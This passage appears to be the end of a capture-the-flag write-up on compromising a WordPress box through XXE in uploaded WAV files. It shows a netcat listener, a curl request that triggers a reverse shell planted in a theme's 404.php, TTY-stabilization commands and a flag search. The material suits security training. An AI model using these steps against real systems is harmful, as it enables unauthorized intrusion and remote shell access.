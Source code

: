 ```php
        print "$string\n";
    }
}
?>
```

### 🎧 Netcat Listener
```bash
# Start listener
nc -lnvp <PORT>
```

### 🚀 Shell Trigger
**Access the modified WordPress file:**
```bash
curl http://<TARGET_IP>/wp-content/themes/theme-name/404.php
```

### 🐚 Shell Stabilization
```bash
# Upgrade to interactive shell
python3 -c "import pty; pty.spawn('/bin/bash')"

# Set environment variables
export TERM=xterm

# Background and foreground for full TTY
# Ctrl+Z
stty raw -echo; fg
```

### 🏆 Flag Collection
```bash
# Find and read the flag
find / -name "flag.txt" 2>/dev/null
cat /path/to/flag.txt
```

## 📚 Key Learnings

### 🔍 XXE Vulnerabilities
- **XML External Entity** attacks can lead to file disclosure
- **Out-of-band techniques** bypass content filtering
- **PHP filters** enable file encoding/transformation
- **DTD files** control entity resolution

### 🎵 WordPress Media Exploitation
- **File upload** functionality can be weaponized
- **WAV file format** can contain XML payloads
- **Media processing** may parse embedded XML
- **Error handling** may expose sensitive information

